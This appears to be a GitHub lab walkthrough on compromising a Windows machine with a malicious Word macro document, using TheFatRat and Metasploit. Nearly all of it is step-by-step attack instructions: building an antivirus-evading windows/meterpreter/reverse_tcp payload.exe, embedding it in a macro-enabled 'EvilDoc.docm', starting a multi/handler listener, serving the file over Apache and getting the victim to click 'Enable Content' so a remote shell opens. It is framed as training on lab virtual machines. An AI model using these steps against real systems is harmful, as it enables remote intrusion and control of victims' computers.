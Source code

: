 # Hacking Windows with Malicious Office Document using TheFatRat
TheFatRat is an exploiting tool which compiles a malware with famous payload, and then the compiled malware can be executed on Linux, Windows, Mac and Android. TheFatRat Provides An Easy way to create Backdoors and Payload which can bypass most anti-virus.

Official Repository: https://github.com/Screetsec/TheFatRat

### Objectives
* How to use an office document to exploit a windows machine.

### Requisites
* Windows Server 2016/2012 virtual machine.
* Kali linux virtual machine.

## Set up TheFatRat

TheFatRat provides an easy way to create backdoors and payloads which can bypass most anti-virus systems.

### Setting up

1. Go to your Kali machine and open the Terminal.
2. Navigate to the **/opt/** folder.<br>
`cd /opt`<br>
3. Clone the original github repository from FatRat:<br>
`git clone https://github.com/Screetsec/TheFatRat.git`
4. Change the folder permissions:<br>
`chmod -R 755 /opt/TheFatRat/`
5. Go to the TheFatRat folder:<br>
`cd TheFatRat/`
6. Execute the bash file **(setup.sh)** to begin the installation:<br>
`./setup.sh`

An Updating Kali Repo xterm window will popup as shown below:

![installing-fatRat](https://gist.githubusercontent.com/Samsar4/62886aac358c3d484a0ec17e8eb11266/raw/e8fa4966982e0f0d9ecc4bb11e57d6c5d5a5f06c/InstallingFatRat-0.png)


## Make a Backdoor File
After the installation is complete, in the Terminal, type `fatrat` and hit enter.

When FatRat launches, starts to verify the installed dependencies, you will get multiple prompts, just type Enter to continue.

![fatratmenu](https://gist.githubusercontent.com/Samsar4/62886aac358c3d484a0ec17e8eb11266/raw/e8fa4966982e0f0d9ecc4bb11e57d6c5d5a5f06c/TheFatRat-1.png)

On the FatRat menu, choose **[06] Create Fud Backdoor 1000% with PwnWindws [Excelent]** by typing `6`.

![PwnWind](https://gist.githubusercontent.com/Samsar4/62886aac358c3d484a0ec17e8eb11266/raw/e0a88cc5a5dc16d3f868e25305588c3f1a4336d2/pwnwind-1.png)

**PwnWinds** menu appears as shown above, choose the **[3] Create exe file with apache + Powershell (FUD 100%) by typing** `3` in the menu. 

![payload](https://gist.githubusercontent.com/Samsar4/62886aac358c3d484a0ec17e8eb11266/raw/65ae135c7f8375eb60e15ac0ac936b142562ac66/payload.png)

Set the `LHOST IP` to your Kali IP; `LPORT` to `4444` and the output to `payload` as show above.

Next, chose **[3] windows/meterpreter/reverse_tcp** by typing `3`.

![payloadchoose](https://gist.githubusercontent.com/Samsar4/62886aac358c3d484a0ec17e8eb11266/raw/e68bd00de68fe3b81729e742f4fe28621e93140b/payload-choose.png)

If everything works, fatrat will generate a **payload.exe** file located on /root/Fatrat_Generated/ as shown below:

```
Backdoor Saved To : /root/Fatrat_Generated/payload.exe
```

## Make a Malicious Word File
Go back to the main menu by choosing **[9] Back to menu**.

On the main menu, choose the **[07]  Create Backdoor For Office with Microsploit** 

![microsploit](https://gist.githubusercontent.com/Samsar4/62886aac358c3d484a0ec17e8eb11266/raw/51c3113f08b47fc83c01fa8a5ff5fc1ed45bb21f/MicroSploit.png)

On the Microsploit menu, choose **[2] The Microsoft Office Macro on Windows** by typing `2`.

### The next configurations will be:

1. `LHOST IP`: [Your Kali IP] 
2. `LPORT`: 4444
3. `Enter the base name for output files`: EvilDoc
4. `Enter the message for the document body`: you have been PWNED :)
5. The next prompt will ask if you want to use a custom exe to file backdoor. Choose `y` for **yes**.
6. Specify the exactly path to your payload.exe that you generated on the beginings of this lab: **/root/Fatrat_Generated/payload.exe**
7. On the Payload Option, choose the **[3] windows/meterpreter/reverse_tcp** by typing `3`.
Navigate to output folder of FatRat to you will see the generated Word file.

![evilFiles](https://gist.githubusercontent.com/Samsar4/62886aac358c3d484a0ec17e8eb11266/raw/c0c8c4ef9ecf358334343d4036a0bb98255272f7/evilFiles.png)

## Set Up a Listener
Open another Terminal window and launch metasploit by typing: `msfconsole`.

Select the **multi/handler**:<br>
`use multi/handler`

Set the payload to **meterpreter/reverse_tcp**:<br>
`set payload windows/meterpreter/reverse_tcp`

Set the **LHOST** to your Kali IP and **LPORT** to **4444**:<br>
`set LHOST 10.0.2.42`<br>
`set LPORT 4444`<br>

Type **run** to start the listener:<br>
`run`

## Share the Malicious Doc File
To share the malicious file to Windows machine, copy the Doc file to the apache folder. Open a new Terminal window and type:<br>
`cp /root/Fatrat_Generated/EvilDoc.docm /var/www/html/share/`

Then, start the apache service:<br>
`service apache2 start`

## Open the Malicious doc
Switch to your Windows machine and open the **browser**.

Type the URL (based on your Kali IP):<br>
`http://10.0.2.42/share/`

Then, download the malicious doc that you generated.

![EvilFile-0](https://gist.githubusercontent.com/Samsar4/62886aac358c3d484a0ec17e8eb11266/raw/da405dae8fdb8c05b5a7ee412c0508c22f9b0972/evilfile-0.png)

Open the downloads folder and click the MS Word file.

MS Word open the file in Protected View. Click **Enable Editing** as shown below:

![ms-word-protected-view](https://gist.githubusercontent.com/Samsar4/62886aac358c3d484a0ec17e8eb11266/raw/da405dae8fdb8c05b5a7ee412c0508c22f9b0972/maliciousword.png)

If you got the **SECURITY WARNING** because of the Macros, click on **Enable Content**.

Now Switch back to the Kali, if everything works, you will find that have a **Meterpreter session** open in the Metasploit terminal.

![meterpreter-docfile](https://gist.githubusercontent.com/Samsar4/62886aac358c3d484a0ec17e8eb11266/raw/da405dae8fdb8c05b5a7ee412c0508c22f9b0972/meterpreter-docfile.png)

Now you can view the exploited system details and so on. Informally you can call this action 'profit' :)